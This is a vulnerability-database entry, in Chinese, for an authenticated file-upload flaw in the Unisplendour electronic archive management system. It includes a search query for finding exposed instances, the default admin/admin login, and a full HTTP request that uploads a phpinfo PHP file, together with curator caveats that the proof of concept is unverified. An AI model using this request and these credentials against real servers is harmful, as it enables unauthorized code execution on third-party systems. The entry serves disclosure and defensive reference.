



# 紫光电子档案管理系统 Cms upload.html后台文件上传

## 条目说明

- 对象与具体问题：紫光电子档案管理系统；Cms upload.html后台文件上传
- 版本、配置及部署条件：版本未知，PHP执行及有效登录令牌
- 认证与权限前提：管理员登录，默认密码仅示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 明确后台依赖应保留，不可后归匿名；默认口令不是所有部署必然
- URL与表单token不同且固定，需解释绑定关系；Content-Length静态
- 文件上传到RCE需PHP可执行，数据库信息影响未有相应证据
- 上传路径只在未视检图；与497WorkFlow为不同入口，缺修复/版本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

### 漏洞影响

```
紫光电子档案管理系统
```

### 网络测绘

```
app="紫光档案管理系统"
```

### 漏洞复现

登录页面


使用默认口令登录后台 admin/admin, 发送请求包



```http
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

> 请求长度说明：原资料 Content-Length 为 614；静态长度已移除，应由客户端根据最终请求体的字节数生成。



回显路径即为上传成功的文件路径



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
